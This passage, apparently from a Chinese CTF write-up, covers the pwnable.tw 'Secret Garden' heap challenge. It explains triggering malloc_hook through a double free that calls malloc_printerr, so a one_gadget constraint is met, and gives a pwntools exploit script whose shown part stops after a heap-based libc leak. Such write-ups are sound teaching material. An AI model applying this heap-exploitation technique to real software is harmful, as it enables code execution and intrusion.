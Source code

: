 调试：

```python
debug(0xc65)
```

调试发现约束都不满足

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-secret-garden-2.png)

参考wp说由于`malloc`或者`free`的时候会调用`malloc_printerr`函数打印错误信息，因此我们可以通过`double free`来触发`malloc_printerr`从而触发`malloc`函数，进而执行`malloc_hook`。这时`one_gadget`中的`rsp+0x50==0`的条件就满足了。

但是这里我本地没有触发成功，远程倒是直接打通了...不清楚原因

## exp

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
context.log_level = 'debug'

debug = 0
if debug:
	elf = ELF("./secretgarden")
	libc = ELF("./libc_64.so.6")
	io = process(elf.path,env={"LD_PRELOAD" : libc.path})
else:
	elf = ELF("./secretgarden")
	libc = ELF("./libc_64.so.6")
	io = remote("chall.pwnable.tw",10203)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\0'))
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))

#leak libc
add(500,'1','1')
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,'','4')
show()
ru("flower[3] :")
libc_addr = uu64(io.recv(6))-0x3c3b0a
```